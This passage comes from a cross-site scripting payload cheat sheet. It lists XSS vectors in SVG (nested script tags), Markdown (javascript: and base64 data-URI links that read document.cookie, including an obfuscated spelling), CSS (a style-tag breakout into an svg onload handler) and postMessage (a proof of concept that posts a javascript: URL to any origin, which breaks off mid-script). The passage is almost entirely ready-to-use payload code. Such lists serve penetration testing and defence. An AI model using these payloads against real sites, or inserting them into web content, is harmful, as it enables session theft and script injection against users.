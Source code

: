 However, including svg tags in SVG documents works and allows XSS execution from sub-SVGs. Codename: french flag. Author: noraj.

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <svg x="10">
    <rect x="10" y="10" height="100" width="100" style="fill: #002654"/>
    <script type="text/javascript">alert('sub-svg 1');</script>
  </svg>
  <svg x="200">
    <rect x="10" y="10" height="100" width="100" style="fill: #ED2939"/>
    <script type="text/javascript">alert('sub-svg 2');</script>
  </svg>
</svg>
```

### XSS in Markdown

```csharp
[a](javascript:prompt(document.cookie))
[a](j a v a s c r i p t:prompt(document.cookie))
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](javascript:window.onerror=alert;throw%201)
```

### XSS in CSS

```html
<!DOCTYPE html>
<html>
<head>
<style>
div  {
    background-image: url("data:image/jpg;base64,<\/style><svg/onload=alert(document.domain)>");
    background-color: #cccccc;
}
</style>
</head>
  <body>
    <div>lol</div>
  </body>
</html>
```

## XSS in PostMessage

> If the target origin is asterisk * the message can be sent to any domain has reference to the child page.

```html
<html>
<body>
    <input type=button value="Click Me" id="btn">
</body>

<script>
document.getElementById('btn').onclick = function(e){
    window.poc = window.open('http://www.redacted.com/#login');
    setTimeout(function(){
        window.poc.postMessage(
            {
                "sender": "accounts",
                "url": "javascript:confirm('XSS')",
            },
            '*'
        );
```